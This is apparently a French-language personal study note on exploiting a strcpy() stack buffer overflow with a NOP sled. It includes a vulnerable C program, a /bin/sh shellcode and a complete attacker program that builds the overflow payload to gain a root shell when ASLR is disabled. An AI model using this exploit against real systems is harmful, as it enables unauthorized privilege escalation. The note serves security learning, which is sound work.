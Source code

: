 [[strcpy]]


#### **Théorie**

- La fonction strcpy() ne vérifie pas la taille de ce qu'elle copie ni la taille du buffer dans lequel elle le copie. On va donc pouvoir contourner ça pour modifier l'adresse de retour pour la faire pointer sur notre shellcode qui, lui, va nous donner les droits root. Par contre, on va utiliser un nop sled cette fois ci.
- Un nop c'est une instruction assembleur de base utilisée pour faire des pauses mais en gros elles ne font rien. Un nop sled c'est une partie d'un buffer ou autre qu'on va remplir avec des instructions nop.

#### **Pratique**

##### **Exploit 1**

- **Environnement**
	- L'os ne doit pas varier l'adresse de la stack. Donc l'ASLR (Address Space Layout Randomization) ne doit pas être activé.

- **Code source :**
```C
Code 
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[]){
	char little_array[512];
	if (argc > 1)
		strcpy(little_array, argv[1]);
}
```

- **Analyse du code source**
	- On voit que notre input (argv) est copié vers un buffer de taille max 512 bytes mais rien ne nous empêche de faire un buffer overflow.

- **Shellcode**
- `\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68`

- **Exploitation**
	- On va cette fois-ci utiliser un nop sled pour avoir une plus grande marge d'erreur car si l'adresse de retour retombe sur n'importe quelles instruction nop avant le shellcode, ça va justement l'envoyer dessus. On va premièrement remplir le buffer entièrement avec l'adresse du début du buffer. Ensuite, on va remplacer la première moitié du buffer avec le nop sled. Enfin, on va foutre notre shellcode en plein milieu du buffer (d'où le buff + ((bsize/2) - (strlen(shellcode)/2));) ca va prendre en compte la moitié du buffer et la moitié du shellcode. Et enfin on rajoute un \0 pour marquer la fin d'un buffer de char.
```C
Programme attaquant pour créer le shellcode
#include <stdlib.h>
#define DEFAULT_OFFSET 0
#define DEFAULT_BUFFER_SIZE 512
#define NOP 0x90
char shellcode[] =
"\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46"
"\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1"
"\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68";
unsigned long get_sp(void) {
	__asm__("movl %esp,%eax");
}
void main(int argc, char *argv[]){
	char *buff, *ptr;
	long *addr_ptr, addr;
	int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
	int i;
	if (argc > 1) bsize = atoi(argv[1]);
	if (argc > 2) offset = atoi(argv[2]);
	if (!(buff = malloc(bsize))) {
		printf("Can’t allocate memory.\n");
		exit(0);
	}
	addr = get_sp() - offset;
	printf("Using address: 0x%x\n", addr);
	ptr = buff;
	addr_ptr = (long *) ptr;
	for (i = 0; i < bsize; i+=4)
		*(addr_ptr++) = addr;
	for (i = 0; i < bsize/2; i++)
		buff[i] = NOP;
	ptr = buff + ((bsize/2) - (strlen(shellcode)/2));
	for (i = 0; i < strlen(shellcode); i++)
		*(ptr++) = shellcode[i];
	buff[bsize - 1] = "\0";
	memcpy(buff,"BUF=", 4);
	putenv(buff);
	system("/bin/bash");
}
```

^a5154f

- 
	- Maintenant c'est exactement pareil que pour le [[strcpy#^e206d8|strcpy exploit]] sauf que là on a beaucoup plus de combinaisons gagnantes.